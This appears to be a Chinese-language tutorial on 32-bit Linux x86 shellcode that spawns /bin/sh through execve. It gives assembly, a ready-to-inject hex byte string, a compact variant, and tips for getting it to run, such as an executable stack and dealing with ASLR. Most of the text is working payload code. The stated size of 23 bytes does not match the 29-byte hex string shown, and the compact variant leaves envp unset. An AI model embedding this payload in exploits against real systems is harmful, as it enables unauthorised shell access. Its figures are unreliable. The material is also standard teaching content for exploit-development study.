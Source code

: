 下面是一个Linux x86 (32位)下执行`/bin/sh`的shellcode：

```nasm
; Linux x86 execve("/bin/sh") shellcode
; 大小：23 bytes

global _start
section .text
_start:
    ; 清零寄存器
    xor eax, eax        ; EAX = 0
    xor ebx, ebx        ; EBX = 0
    xor ecx, ecx        ; ECX = 0
    xor edx, edx        ; EDX = 0
    
    ; 构建"/bin/sh"字符串
    push eax            ; 字符串结束符NULL
    push 0x68732f6e     ; "hs/n"
    push 0x69622f2f     ; "ib//"
    
    ; 设置参数
    mov ebx, esp        ; EBX = 指向"/bin/sh"
    push eax            ; NULL终止符
    push ebx            ; 参数字符串地址
    mov ecx, esp        ; ECX = argv
    
    ; 执行syscall
    mov al, 0xb         ; execve的系统调用号是11 (0xb)
    int 0x80           ; 触发系统调用
```

十六进制形式：
```
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

主要特点和解析：

1. 系统调用约定(x86):
- eax: 系统调用号
- ebx: 第一个参数
- ecx: 第二个参数
- edx: 第三个参数
- int 0x80触发系统调用

2. 内存布局：
```
[null]
[/bin/sh\0]
[ptr -> "/bin/sh"]
[null]
```

3. execve参数：
- path = "/bin/sh"
- argv = ["/bin/sh", NULL]
- envp = NULL

4. 与AMD64版本的主要区别：
- 使用32位寄存器
- int 0x80代替syscall
- 系统调用号不同(11 vs 59)
- 参数传递方式不同

注意事项：
1. 避免NULL字节
2. 栈对齐要求
3. 寄存器使用规范
4. 系统调用号差异

另一个更紧凑的变体：
```nasm
; 更短的版本
push 0xb
pop eax
xor ecx, ecx
push ecx
push 0x68732f2f   ; "hs//"
push 0x6e69622f   ; "nib/"
mov ebx, esp      ; ebx = "/bin/sh"
push ecx
push ebx
mov ecx, esp      ; ecx = argv
int 0x80
```

使用建议：
1. 测试环境兼容性
2. 检查安全限制
3. 确保栈可执行
4. 考虑ASLR影响

这个shellcode相比64位版本：
- 代码更简短
- 参数传递更简单
- 系统调用方式不同
- 整体结构相似
